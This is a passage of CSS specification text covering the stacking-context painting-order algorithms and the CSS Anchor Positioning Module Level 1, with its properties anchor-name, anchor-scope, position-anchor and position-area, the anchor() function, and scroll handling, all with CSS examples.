This chapter describes the painting order of CSS’s box tree.

When traversing the box tree, tree order is often used. For fragments, this refers to the logical order of the fragments, not the visual order. (This can be relevant, for example, when rending bidirectional text.)

Painting order is defined in terms of a "painter’s model", where elements are described as painting in a stack, with the bottom of the stack rendered "first", below items higher in the stack. The user is implied to exist above the top of the stack, looking down:

```
             |     |         |
             |          |    |   ⇦ 🧑‍🎨
             |          |        user
z-index:  canvas  -1    0    1
```

The stacking context background and most negative positioned stacking contexts are at the bottom of the stack, while the most positive positioned stacking contexts are at the top of the stack.

The canvas is transparent if contained within another, and given a UA-defined color if it is not. It is infinite in extent and contains the root element. Initially, the viewport is anchored with its top left corner at the canvas origin.

To **paint a document**, given a document *doc* and an infinite canvas *canvas*:

1. Paint a stacking context given *doc*’s root element and *canvas*.
2. For each element *el* in *doc*’s top layer:

  1. Paint a stacking context given *el*'s `::backdrop` pseudo-element and *canvas*.
  2. Paint a stacking context given *el* and *canvas*, treating *el* as a stacking context, with the initial containing block as its containing block.

To **paint a stacking context** given an element, pseudo-element, or box *root*, and an infinite canvas *canvas*:

1. If *root* is an element, paint a stacking context given *root*’s principal box and *canvas*, then return.
2. Assert: *root* is a box, and generates a stacking context.
3. If *root* is a root element’s principal box, paint *root*’s background over the entire *canvas*, with the origin of the background positioning area being the position on *canvas* that would be used if *root*’s background was being painted normally.
4. If *root* is a block-level box, paint a block’s decorations given *root* and *canvas*.
5. For each of *root*’s positioned descendants with negative (non-zero) `z-index` values, sort those descendants by `z-index` order (most negative first) then tree order, and paint a stacking context given each descendant and *canvas*.
6. For each of *root*’s in-flow, non-positioned, block-level descendants, in tree order, paint a block’s decorations given the descendant and *canvas*.
7. For each of *root*’s non-positioned floating descendants, in tree order, paint a stacking container given the descendant and *canvas*.
8. **If *root* is an inline-level box**

   : For each line box *root* is in, paint a box in a line box given *root*, the line box, and *canvas*.

   **Otherwise**

   : First for *root*, then for all its in-flow, non-positioned, block-level descendant boxes, in tree order:

  1. If the box is a replaced element, paint the replaced content into *canvas*, atomically.
  2. Otherwise, for each line box of the box, paint a box in a line box given the box, the line box, and *canvas*.
  3. If the UA uses in-band outlines, paint the outlines of the box into *canvas*.
9. For each of *root*’s positioned descendants with `z-index: auto` or `z-index: 0`, in tree order:

   **descendant has `z-index: auto`**

   : Paint a stacking container given the descendant and *canvas*.

   **descendant has `z-index: 0`**

   : Paint a stacking context given the descendant and *canvas*.
10. For each of *root*’s positioned descendants with positive (non-zero) `z-index` values, sort those descendants by `z-index` order (smallest first) then tree order, and paint a stacking context given each descendant and *canvas*.
11. If the UA uses out-of-band outlines, draw all of *root*’s outlines (those that it skipped drawing due to not using in-band outlines during the current invocation of this algorithm) into *canvas*.

To **paint a block’s decorations** given a block box *root* and a canvas *canvas*:

1. If *root* is not a table wrapper box:

  1. Paint *root*’s background to *canvas* if it is not the root element’s principal box.
  2. Paint *root*’s border to *canvas*.
2. If *root* is a table wrapper box:

  1. Paint *root*’s background to *canvas* if it is not the root element’s principal box.
  2. For each column group of *root* in tree order, paint the column group’s background to *canvas*.
  3. For each column of *root* in tree order, paint the column’s background to *canvas*.
  4. For each row group of *root* in tree order, paint the row group’s background to *canvas*.
  5. For each row of *root* in tree order, paint the row’s background to *canvas*.
  6. For each cell of *root* in tree order, paint the cell’s background to *canvas*.
  7. Paint the borders of all of the table elements of *root*. If the borders are separated, do so in tree order; if connected, do so as specified in [css-tables-3].

To **paint a box in a line box**, given a box *root*, a line box *line box*, and a canvas *canvas*:

1. Paint the backgrounds of *root*’s fragments that are in *line box* into *canvas*.
2. Paint the borders of *root*’s fragments that are in *line box* into *canvas*.
3. **If *root* is an inline box**

   : For all *root*’s in-flow, non-positioned, inline-level children that generate fragments in *line box*, and all child text sequences that generate fragments in *line box*, in tree order:

  **If this child is a text sequence, then:**

  : 1. Paint any underlining affecting the text, in tree order of the elements applying the underlining (such that the deepest element’s underlining, if any, is painted topmost and the root element’s underlining, if any, is drawn bottommost) into *canvas*.
    2. Paint any overlining affecting the text, in tree order of the elements applying the overlining (such that the deepest element’s overlining, if any, is painted topmost and the root element’s overlining, if any, is drawn bottommost) into *canvas*.
    3. Paint the text into *canvas*.
    4. Paint any line-through affecting the text, in tree order of the elements applying the line-through (such that the deepest element’s line-through, if any, is painted topmost and the root element’s line-through, if any, is drawn bottommost) into *canvas*.

  **If this child is a box:**

  : Paint a box in a line box given the child, *line box*, and *canvas*.

   **If *root* is an inline-level block or table wrapper box**

   : Paint a stacking container given *root* and *canvas*.

   **If *root* is an inline-level replaced element**

   : Paint the replaced content into *canvas*, atomically.
4. If the UA uses in-band outlines, paint the outlines of *root*’s fragments that are in *line box* into *canvas*.

> **Note:** Even though the visual order of inline box fragments can be rearranged within a line due to [bidirectional reordering](#css-writing-modes-4:bidi-box-model), the fragments are nevertheless painted in tree order.

To **paint a stacking container**, given a box *root* and a canvas *canvas*:

1. Paint a stacking context given *root* and *canvas*, treating *root* as if it created a new stacking context, but omitting any positioned descendants or descendants that actually create a stacking context (letting the parent stacking context paint them, instead).

UAs can draw outlines (from the `outline` property) either **in-band** (painted along each element, and thus potentially obscured/overlapping by following content) or **out-of-band** (all outlines painted at the end of the stacking context, so nothing in the stacking context can obscure them). It is recommended that UAs use out-of-band outlines, as making outlines easily visible is an important accessibility feature.

---

## CSS Anchor Positioning Module Level 1 {#css-anchor-position-1}

- **Shortname:** `css-anchor-position-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-anchor-position-1/](https://drafts.csswg.org/css-anchor-position-1/)
- **Published TR:** [https://www.w3.org/TR/css-anchor-position-1/](https://www.w3.org/TR/css-anchor-position-1/)
- **W3C Status:** WD (refining)
- **Last Edited:** 2026-09-06

### 1. Introduction {#css-anchor-position-1:intro}

CSS absolute positioning allows authors to place boxes anywhere on the page, without regard to the layout of other boxes besides their containing block. This flexibility can be very useful, but also very limiting—​often you want to position relative to *some* other box. **Anchor positioning** (via the `position-anchor` and `position-area` properties and/or the **anchor functions** `anchor()` and `anchor-size()`) allows authors to achieve this, “anchoring” an absolutely positioned box to one or more other boxes on the page (its **anchor references**, while also allowing them to try several possible positions to find the “best” one that avoids overlap/overflow.

> **Example:** For example, an author might want to position a tooltip centered and above the targeted element, unless that would place the tooltip offscreen, in which case it should be below the targeted element. This can be done with the following CSS:
>
> ```css
> .anchor {
>   anchor-name: --tooltip;
> }
> .tooltip {
>   /* Fixpos means we don't need to worry about
>      containing block relationships;
>      the tooltip can live anywhere in the DOM. */
>   position: fixed;
>
>   /* All the anchoring behavior will default to
>      referring to the --tooltip anchor. */
>   position-anchor: --tooltip;
>
>   /* Align the tooltip's bottom to the top of the anchor;
>      this also defaults to horizontally center-aligning
>      the tooltip and the anchor (in horizontal writing modes). */
>   position-area: block-start;
>
>   /* Automatically swap if this overflows the window
>      so the tooltip's top aligns to the anchor's bottom
>      instead. */
>   position-try: flip-block;
>
>   /* Prevent getting too wide */
>   max-inline-size: 20em;
> }
> ```
>
> Note that using the [Popover API](https://html.spec.whatwg.org/multipage/popover.html#the-popover-attribute) will automatically set `position` and create the anchoring relationship without setting `anchor-name` or `position-anchor` value (by defining an implicit anchor element), so those properties wouldn’t need to be explicitly set again. So with the correct markup, this example can be simplified to:
>
> ```css
> .tooltip {
>   /* Using the popover + popovertarget attributes sets 'position: fixed'
>      and creates the necessary position-anchor relationship already. */
>   position-area: block-start;
>   position-try: flip-block;
>   max-inline-size: 20em;
> }
> ```

#### 1.1.  Value Definitions {#css-anchor-position-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

Like most operations in CSS besides selector matching, features in this specification operate over the flattened element tree.

### 2.  Determining the Anchor {#css-anchor-position-1:determining}

Several features of this specification refer to the position and size of an **anchor box**. Unless otherwise specified, this refers to the border box edge of the principal box of relevant anchor element. In most cases the relevant anchor element is specified as the default anchor element using the `position-anchor` property, which can refer to an implicit anchor element defined by the host language or an anchor named via the CSS `anchor-name` and `anchor-scope` properties. (The `anchor()` functions can also reference a named anchor directly.)

The anchor box’s position and size is determined after layout. This position and size includes `zoom` and `position`-based adjustments (such as `position: relative` or `position: sticky`) as well as transforms (such as `transform` or `offset-path`). In these cases, the axis-aligned bounding rectangle of the anchor box in the coordinate space of the absolutely positioned element’s containing block is used instead. Transforms are often optimized onto a different thread, so transform-based updates to an anchor box’s position may be delayed by a few frames. Authors can avoid this delay by using absolute or relative positioning instead where practical.

If the anchor box is fragmented, and the containing block of the absolutely positioned box referring to that anchor box is outside the relevant fragmentation context, the axis-aligned bounding rectangle of its box fragments is used instead. (If the absolutely positioned box is inside the fragmentation context, it sees the anchor box as unfragmented—​and can be itself fragmented by the fragmentation context.)

For performance reasons, scrolling is handled specially, see [§ 3.3 Taking Scroll Into Account](#css-anchor-position-1:scroll). Other post-layout effects, such as filters, do not affect the anchor box’s position.

#### 2.1. Creating an Anchor: the `anchor-name` property {#css-anchor-position-1:name}

| Field | Value |
| --- | --- |
| Name: | **anchor-name** |
| [Value:](#css-values-4:value-defs) | none \| `<anchor-name>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements that generate a principal box |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

```css
<anchor-name> = <dashed-ident>
```

The `anchor-name` property declares that an element is an **anchor element**, whose principal box is an anchor box, and gives it a list of **anchor names** to be targeted by. Values are defined as follows:

****none****

: The property has no effect.

****`<anchor-name>`#****

: If the element generates a principal box, the element is an anchor element, with a list of anchor names as specified. Each anchor name is a loosely matched tree-scoped name.

  Otherwise, the property has no effect.

Anchor names do not need to be unique. Not all elements are capable of being the target anchor element of a given box. Thus a name can be reused in multiple places if the usages are scoped appropriately.

> **Note:** If multiple elements share an anchor name and are all visible to a given positioned box, the target anchor element will be the nearest ancestor (if one exists) or else the last one in DOM order. The `anchor-scope` property can be used to further limit what names are visible to a given referencing box.

Anchor names are *not* scoped by containment by default; even if an element has style or layout containment (or any similar sort of containment), the anchor names of its descendants are visible to elements elsewhere in the page.

> **Note:** While an element is in the skipped contents of another element (due to `content-visibility: hidden`, for instance), it’s not an acceptable anchor element, effectively acting as if it had no names.

> **Note:** Positioned elements in shadow trees can reference anchor names defined in “higher” trees. Currently, they cannot reference anchor names defined in “lower” shadow trees, though.

#### 2.2.  Scoping Anchor Names: the `anchor-scope` property {#css-anchor-position-1:anchor-scope}

| Field | Value |
| --- | --- |
| Name: | **anchor-scope** |
| [Value:](#css-values-4:value-defs) | none \| all \| `<anchor-name>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property scopes the specified anchor names, and lookups for these anchor names, to this element’s subtree. See [§ 2 Determining the Anchor](#css-anchor-position-1:determining).

Values have the following meanings:

****none****

: No changes in anchor name scope.

****all****

: Specifies that all anchor names defined by this element or its descendants—​whose scope is not already limited by a descendant using `anchor-scope`—​to be in scope only for this element’s descendants; and limits descendants to only match anchor names to anchor elements within this subtree.

  This value only affects anchor names in the same tree scope, as if it were a strictly matched tree-scoped name. (That is, `anchor-scope: all` acts identically to `anchor-scope: --foo, --bar, ...`, listing all relevant anchor names.)

****`<anchor-name>`****

: Specifies that a matching anchor name defined by this element or its descendants—​whose scope is not already limited by a descendant using `anchor-scope`—​to be in scope only for this element’s descendants; and limits descendants to only match these anchor names to anchor elements within this subtree.

  The `<anchor-name>` represents a strictly matched tree-scoped name, i.e. it can only match against anchor names in the same shadow tree.[CSS-SCOPING-1]

This property has no effect on implicit anchor elements.

> **Note:** Since ancestors of the positioned element are checked first, there’s usually no need to use `anchor-scope` if the desired anchor is an ancestor. It’s only needed when the desired anchor is not an ancestor, or you explicitly want to "hide" an anchor from being referenced elsewhere in the page.

> **Example:** When a design pattern is re-used, `anchor-scope` can prevent naming clashes across identical components. For example, if a list contains positioned elements within each list item, which want to position themselves relative to the list item they’re in,
>
> ```css
> li {
>   anchor-name: --list-item;
>   anchor-scope: --list-item;
> }
> li .positioned {
>   position: absolute;
>   position-anchor: --list-item;
>   position-area: inline-start;
> }
> ```
>
> Without `anchor-scope`, all of the `li` elements would be visible to all of the positioned elements, and so they’d all positioned themselves relative to the *final* `li`, stacking up on top of each other.

> **Issue:** Fix the above example, since the use-case is now automatic.

#### 2.3. Finding an Anchor {#css-anchor-position-1:target}

Several things in this specification find a target anchor element, given an **anchor specifier**, which is either a `<dashed-ident>` (and a tree-scoped reference) that should match an `anchor-name` value elsewhere on the page, or the keyword `auto`, or nothing (a missing specifier).

> **Note:** The general rule captured by these conditions is that an element can only be a positioned box’s target anchor element if its own box is fully laid out before the positioned box that wants to reference it is laid out. CSS’s layout rules provide some useful guarantees about this, depending on the anchor and positioned box’s relationship with each other and their containing blocks. The list of conditions below exactly rephrases the stacking context rules into just what’s relevant for this purpose, ensuring there is no possibility of circularity in anchor positioning.

To determine the **target anchor element** given a querying element *query el* and an optional anchor specifier *anchor spec*:

1. If *anchor spec* was not passed, return the default anchor element if it exists, otherwise return nothing.
2. If *anchor spec* is `auto`:

  1. If *query el* has an implicit anchor element that is an acceptable anchor element, return that element.
  2. Otherwise, return nothing.

   > **Note:** Future APIs might also define implicit anchor elements. When they do, they’ll be explicitly handled in this algorithm, to ensure coordination.
3. Otherwise, *anchor spec* is a `<dashed-ident>`.

   If an ancestor of *query el* satisfies the following conditions, return the nearest such element to *query el*. Otherwise, return the last element *el* in tree order that satisfies the conditions.

  - *el* is an anchor element with an anchor name of *anchor spec*.
  - *el*’s anchor name loosely matches *anchor spec*.

    > **Note:** The anchor name is a tree-scoped name, while *anchor spec* is a tree-scoped reference.
  - *el* is an acceptable anchor element for *query el*.

   If no element satisfies these conditions, return nothing.

   > **Note:** `anchor-scope` can restrict the visibility of certain anchor names, which can affect what elements can be anchor elements for a given lookup.

> **Note:** An `anchor-name` defined by styles in one shadow tree won’t be seen by anchor functions in styles in a different shadow tree, preserving encapsulation. However, *elements* in different shadow trees can still anchor to each other, so long as both the `anchor-name` and anchor function come from styles in the same tree, such as by using `::part()` to style an element inside a shadow. (Implicit anchor elements also aren’t intrinsically limited to a single tree, but the details of that will depend on the API assigning them.)

An element *possible anchor* is an **acceptable anchor element** for an absolutely positioned element *positioned el* if all of the following are true:

- *possible anchor* is either an element or a fully styleable pseudo-elements.
- *possible anchor* is in scope for *positioned el*, per the effects of `anchor-scope` on *possible anchor* or its ancestors.
- *possible anchor* is laid out strictly before *positioned el*, aka one of the following is true:

  - *possible anchor* and *positioned el* have the same original containing block and either

    - *possible anchor* is in a lower top layer than *positioned el*, or
    - they both exist in the same top layer, but *possible anchor* is either not absolutely positioned or occurs earlier in the flat tree order than *positioned el*
  - The element generating *possible anchor*’s containing block (if one exists) is an acceptable anchor element for *positioned el*
- If *possible anchor* is in the skipped contents of another element, then *positioned el* is in the skipped contents of that same element.

  > **Note:** In other words, *positioned el* can anchor to *possible anchor* if they’re both in the same skipped "leaf", but it can’t anchor "across" leafs. This means skipping an element that contains both of them won’t suddenly cause the *positioned el* to move to another anchor, but still prevents positioned elements *elsewhere* in the page from anchoring to the skipped element.

#### 2.4.  Default Anchors: the `position-anchor` property {#css-anchor-position-1:position-anchor}

| Field | Value |
| --- | --- |
| Name: | **position-anchor** |
| [Value:](#css-values-4:value-defs) | normal \| none \| auto \| `<anchor-name>` \| match-parent |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | absolutely positioned boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `position-anchor` property specifies the **default anchor element**, which is used by `position-area`, `position-try`, and (by default) all anchor functions applied to this element. `position-anchor` is a reset-only sub-property of `position`.

****normal****

: If `position-area` is `none`, behaves as `none`. Otherwise, behaves as `auto`.

****none****

: The box has no default anchor element.

****auto****

: Use the implicit anchor element if it exists; otherwise the box has no default anchor element.

****`<anchor-name>`****

: The target anchor element selected by the specified `<anchor-name>` is the box’s default anchor element.

****match-parent****

: Uses the same default anchor element as the parent—​or originating element, if this is a pseudo-element—​if any, and if that would be an acceptable anchor element. Otherwise, the box has no default anchor element.

The principal box of the default anchor element is the box’s **default anchor box**.

> **Example:** For example, in the following code both `.foo` and `.bar` elements can use the same positioning properties, just changing the anchor element they’re referring to:
>
> ```
> .anchored {
>   position: absolute;
>   top: calc(.5em + anchor(outside));
>   /* Since no anchor name was specified,
>      this automatically refers to the
>      default anchor box. */
> }
>
> .foo.anchored {
>   position-anchor: --foo;
> }
> .bar.anchored {
>   position-anchor: --bar;
> }
> ```

If an element has a default anchor element, then the scrollable containing block is used in place of the local containing block when the absolute-position containing block is generated by a scroll container, so that the entire scrollable overflow area (typically) is available for positioning.

##### 2.4.1. Implicit Anchor Elements {#css-anchor-position-1:implicit}

Some specifications can define that, in certain circumstances, a particular element is an **implicit anchor element** for another element.

> **Example:** TODO: Fill in an example new popover-related details (once that finally lands in the HTML spec).

Implicit anchor elements can be referenced with the `auto` keyword in `position-anchor`, or by omitting the anchor reference in anchor functions.

The implicit anchor element of a pseudo-element is its originating element, unless otherwise specified.

#### 2.5.  Anchor Relevance {#css-anchor-position-1:anchor-relevance}

When determining whether an element *el* is relevant to the user, if a descendant of *el* is a target anchor element for a positioned box (which itself is not skipped and whose containing block is not *el* or a descendant of *el*), then *el* must be considered relevant to the user.

> **Note:** This means that, for example, an anchor in a `content-visibility: auto` subtree will prevent its subtree from skipping its contents as long as the positioned box relying on it is also not skipped. (Unless the anchor and the positioned box are both under the same `content-visibility: auto` element; they can’t cyclicly keep each other visible.)

### 3. Anchor-Based Positioning {#css-anchor-position-1:positioning}

An absolutely positioned box can position itself relative to one or more anchor boxes on the page.

The `position-area` property offers a convenient grid-based concept for positioning relative to the default anchor box; for more complex positioning or positioning relative to multiple boxes, the `anchor()` function can be used in the inset properties to explicitly refer to edges of an anchor box.

#### 3.1. The `position-area` Property {#css-anchor-position-1:position-area}

| Field | Value |
| --- | --- |
| Name: | **position-area** |
| [Value:](#css-values-4:value-defs) | none \| `<position-area>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | positioned boxes with a default anchor box |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or a pair of keywords, see [§ 3.1.3 Computed Value and Serialization of <position-area>](#css-anchor-position-1:position-area-computed) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Most common use-cases of anchor positioning are only concerned with the edges of the positioned box’s containing block and the edges of the default anchor box. These lines can be thought of as defining a 3×3 grid; `position-area` lets you easily specify what area of this position-area grid to lay out the positioned box in.


An example of `position-area: top left` positioning in a `horizontal-tb` `ltr` writing mode.

****none****

: The property has no effect.

****`<position-area>`****

: If the box does not have a default anchor box, or is not an absolutely positioned box, this value has no effect.

  Otherwise, selects a region of the position-area grid, and makes that the box’s containing block.

  > **Note:** This means that the inset properties specify offsets from the position-area, and some property values, like `max-height: 100%`, will be relative to the position-area as well.

Values other than `none` have the following additional effects:

- The used value of any `auto` inset properties and `auto` margin properties resolves to `0`.
- The `normal` value for the self-alignment properties resolves to a corresponding value, see [§ 4.1 Area-specific Default Alignment](#css-anchor-position-1:position-area-alignment).

##### 3.1.1.  Resolving the Position Area Grid {#css-anchor-position-1:position-area-grid-resolution}

The **position-area grid** is a 3×3 grid, composed of four grid lines in each axis. In order (using the writing mode of the containing block):

- the start edge of the box’s pre-modification containing block, or the start edge of the default anchor box if that is more start-ward
- the start edge of the default anchor box
- the end edge of the default anchor box
- the end edge of the box’s pre-modification containing block, or the end edge of the default anchor box if that is more end-ward.

> **Note:** When the default anchor box is partially or completely outside of the pre-modified containing block, some of the position-area grid’s rows or columns can be zero-sized.

##### 3.1.2.  Syntax of `<position-area>` Values {#css-anchor-position-1:position-area-syntax}

Positions are specified as a pair of values, which can be expressed in flow-relative or physical terms. The allowed syntax of a `<position-area>` value is:

```css
<position-area> = [
  [ left | center | right | span-left | span-right
  | x-start | x-end | span-x-start | span-x-end
  | self-x-start | self-x-end | span-self-x-start | span-self-x-end
  | span-all ]
  ||
  [ top | center | bottom | span-top | span-bottom
  | y-start | y-end | span-y-start | span-y-end
  | self-y-start | self-y-end | span-self-y-start | span-self-y-end
  | span-all ]
|
  [ block-start | center | block-end | span-block-start | span-block-end | span-all ]
  ||
  [ inline-start | center | inline-end | span-inline-start | span-inline-end
  | span-all ]
|
  [ self-block-start | center | self-block-end | span-self-block-start
  | span-self-block-end | span-all ]
  ||
  [ self-inline-start | center | self-inline-end | span-self-inline-start
  | span-self-inline-end | span-all ]
|
  [ start | center | end | span-start | span-end | span-all ]{1,2}
|
  [ self-start | center | self-end | span-self-start | span-self-end | span-all ]{1,2}
]
```

The `<position-area>` value selects a region of the position-area grid by specifying the rows and columns the region occupies as follows:

****start**, **end**, **self-start**, **self-end** **top**, **bottom**, **left**, **right** **y-start**, **y-end**, **self-y-start**, **self-y-end** **x-start**, **x-end**, **self-x-start**, **self-x-end** **block-start**, **block-end**, **self-block-start**, **self-block-end** **inline-start**, **inline-end**, **self-inline-start**, **self-inline-end** **center****

: The single corresponding row or column, depending on which axis this keyword is specifying.

  Like in `anchor()`, the plain logical keywords (`start`, `end`, etc) refer to the writing mode of the box’s containing block. The `x-start`/etc determine their direction in the same way, but in the specified physical axis.

  The `self-*` logical keywords (`self-start`, `self-x-end`, etc) are identical, but refer to the box’s own writing mode.

****span-start**, **span-end**, **span-self-start**, **span-self-end** **span-top**, **span-bottom**, **span-left**, **span-right** **span-y-start**, **span-y-end**, **span-self-y-start**, **span-self-y-end** **span-x-start**, **span-x-end**, **span-self-x-start**, **span-self-x-end** **span-block-start**, **span-block-end**, **span-self-block-start**, **span-self-block-end** **span-inline-start**, **span-inline-end**, **span-self-inline-start**, **span-self-inline-end****

: Two adjacent rows or columns, depending on which axis this keyword is specifying: the center row/column, and the row/column corresponding to the other half of the keyword as per the single-track keywords.

  (For example, `span-top` spans the first two rows—​the center row and the top row.)

****span-all****

: All three rows or columns, depending on which axis this keyword is specifying.

Some keywords are ambiguous about what axis they refer to: `center`, `span-all`, and the `start`/etc keywords that don’t specify the block or inline axis explicitly. If the other keyword is unambiguous about its axis, then the ambiguous keyword is referring to the opposite axis. (For example, in `block-start center`, the `center` keyword is referring to the inline axis.) If both keywords are ambiguous, however, then the first refers to the block axis of the box’s containing block, and the second to the inline axis. (For example, `span-all start` is equivalent to `span-all inline-start`.)

If only a single keyword is given, it behaves as if the second keyword is `span-all` if the given keyword is unambigous about its axis; otherwise, it behaves as if the given keyword was repeated. (For example, `top` is equivalent to `top span-all`, but `center` is equivalent to `center center`.)

##### 3.1.3.  Computed Value and Serialization of `<position-area>` {#css-anchor-position-1:position-area-computed}

The computed value of a `<position-area>` value is the two keywords indicating the selected tracks in each axis, with the long (`block-start`) and short (`start`) logical keywords treated as equivalent. It serializes in the order given in the grammar (above), with the logical keywords serialized in their short forms (e.g. `start start` instead of `block-start inline-start`).

#### 3.2. Anchor-relative Insets: the `anchor()` function {#css-anchor-position-1:anchor-pos}

An absolutely positioned box can use the **anchor()** function as a value in its inset properties to refer to the position of one or more anchor boxes. The `anchor()` function resolves to a `<length>`. It is only allowed in the inset properties (and is otherwise invalid).

| Field | Value |
| --- | --- |
| Name: | `top`, `left`, `right`, `bottom` |
| [New values:](#css-values-4:value-defs) | `<anchor()>` |

```css
<anchor()> = anchor( <anchor-name>? && <anchor-side>, <length-percentage>? )
<anchor-side> = inside | outside
       | top | left | right | bottom
       | start | end | self-start | self-end
       | <percentage> | center
```

The `anchor()` function has three arguments:

- the `<anchor-name>` value specifies how to find the anchor element it will be drawing positioning information from. Its possible values are:

  ****`<dashed-ident>`****

  : Specifies the anchor name it will look for. This name is a tree-scoped reference.

  **omitted**

  : Selects the default anchor element defined for the box, if possible.

  See target anchor element for details.
- the `<anchor-side>` value refers to the position of the corresponding side of the target anchor element. Its possible values are:

  ****inside** **outside****

  : Resolves to one of the anchor box’s sides, depending on which inset property it’s used in. `inside` refers to the same side as the inset property (attaching the positioned box to the "inside" of the anchor box), while `outside` refers to the opposite.

  ****top** **right** **bottom** **left****

  : Refers to the specified side of the anchor box.

  > **Note:** These are only usable in the inset properties in the matching axis. For example, `left` is usable in `left`, `right`, or the logical inset properties that refer to the horizontal axis.

  ****start** **end** **self-start** **self-end****

  : Refers to one of the sides of the anchor box in the same axis as the inset property it’s used in, by resolving the keyword against the writing mode of either the positioned box (for `self-start` and `self-end`) or the positioned box’s containing block (for `start` and `end`).

  ****`<percentage>`** **center****

  : Refers to a position a corresponding percentage between the `start` and `end` sides, with `0%` being equivalent to `start` and `100%` being equivalent to `end`.

  `center` is equivalent to `50%`.
- the optional `<length-percentage>` final argument is a fallback value, specifying what the function should compute to if it’s an unresolvable anchor function.

An `anchor()` function representing a resolvable anchor function resolves at computed value time (using style & layout interleaving) to the `<length>` that would align the edge of the positioned boxes' inset-modified containing block corresponding to the property the function appears in with the specified edge of the target anchor element’s anchor box.

> **Note:** This means that transitions or animations of a property using an anchor function will work "as expected" for all sorts of possible changes: the anchor box moving, anchor elements being added or removed from the document, the `anchor-name` property being changed on anchors, etc.

> **Example:** For example, in `.bar { inset-block-start: anchor(--foo block-start); }`, the `anchor()` will resolve to the length that’ll line up the `.bar` element’s block-start edge with the `--foo` anchor’s block-start edge.
>
> On the other hand, in `.bar { inset-block-end: anchor(--foo block-start); }`, it will instead resolve to the length that’ll line up the `.bar` element’s *block-end* edge with the `--foo` anchor’s block-start edge.
>
> Since `inset-block-start` and `inset-block-end` values specify insets from different edges (the block-start and block-end of the element’s containing block, respectively), the same `anchor()` will usually resolve to different lengths in each.

> **Example:** Because the `anchor()` function resolves to a `<length>`, it can be used in math functions like any other length.
>
> For example, in the following chart, the three bars are set up as possible anchors, and the min/max lines and tooltips use `min()` and `max()` to combine `anchor()` functions referring to all three to find where to position themselves. You can use the range inputs below each column to adjust the heights, and see that the anchored lines and tooltips dynamically adjust to whichever bar is the highest/lowest.
>
> [Full Example](../css-anchor-position-1/examples/calc-anchor.html)
>
> The important fragment of the code to accomplish this is:
>
> ```
> #bar-1 { anchor-name: --anchor-1; }
> #bar-2 { anchor-name: --anchor-2; }
> #bar-3 { anchor-name: --anchor-3; }
> .line {
>   position: absolute;
>   left: anchor(--chart left);
>   right: anchor(--chart right);
>   &.max {
>     bottom: max(
>       anchor(--anchor-1 top),
>       anchor(--anchor-2 top),
>       anchor(--anchor-3 top)
>     );
>   }
>   &.min {
>     bottom: min(
>       anchor(--anchor-1 top),
>       anchor(--anchor-2 top),
>       anchor(--anchor-3 top)
>     );
>   }
> }
> ```

##### 3.2.1.  Resolution of `anchor()` {#css-anchor-position-1:anchor-resolution}

An `anchor()` function is a **resolvable anchor function** only if all the following conditions are true:

- It’s applied to an absolutely positioned box.
- If its `<anchor-side>` specifies a physical keyword, it’s specified in an inset property applicable to that axis. (For example, `left` can only be used in `left`, `right`, or a logical inset property in the horizontal axis.)
- There is a target anchor element for the box it’s used on, and the `<anchor-name>` value specified in the function.

If any of these conditions are false, the `anchor()` function computes to its specified fallback value. If no fallback value is specified, it makes the declaration referencing it invalid at computed-value time.

#### 3.3. Taking Scroll Into Account {#css-anchor-position-1:scroll}

For performance reasons, implementations usually perform scrolling on a separate scrolling/"compositing" thread, which has very limited capabilities (simple movement/transforms/etc., but no layout or similar expensive operations) and thus can be relied upon to respond to scrolling fast enough to be considered "instant" to human perception.

If scrolling just causes an anchor-positioned element to *move*, there is in theory no issue; the movement can be performed on the scrolling thread so the positioned element moves smoothly with the scrolling content. However, anchor positioning allows an element to make the positions of its own opposite edges depend on things in *different* scrolling contexts, which means scrolling could move just *one* edge and cause a size change, and thus perform layout. This can’t be performed on the scrolling thread!

To compensate for this, while still allowing as much freedom to anchor to various elements as possible, anchor positioning uses a combination of remembered scroll offsets and compensating for scroll.

> **Note:** The details here are technical, but the gist is:
>
> - When a positioned element is first displayed, or when it [changes fallbacks](#css-anchor-position-1:fallback), its position is correctly calculated according to the up-to-date position of all anchor references.
>
>   If these anchor references are in a different scroll context, their total scroll offsets are *memorized*, and layout will continue using those memorized offsets, even if those elements are scrolled later. (Only the scroll offsets are memorized; their actual laid-out positions are freshly calculated each time and remain accurate.) They’ll only recalculate if the positioned element stops being displayed and starts again, or changes fallbacks.
> - The one exception to this is the default anchor element; if it’s scrolled away from its remembered scroll offset, the positioned element moves with it. Because this is *purely* a shift in position, the positioned element can’t change size or otherwise require layout in response.
>
> The end result is that anchor positioning should generally "just work", regardless of what the element is anchoring to, but it might be limited in how it can respond to scrolling.

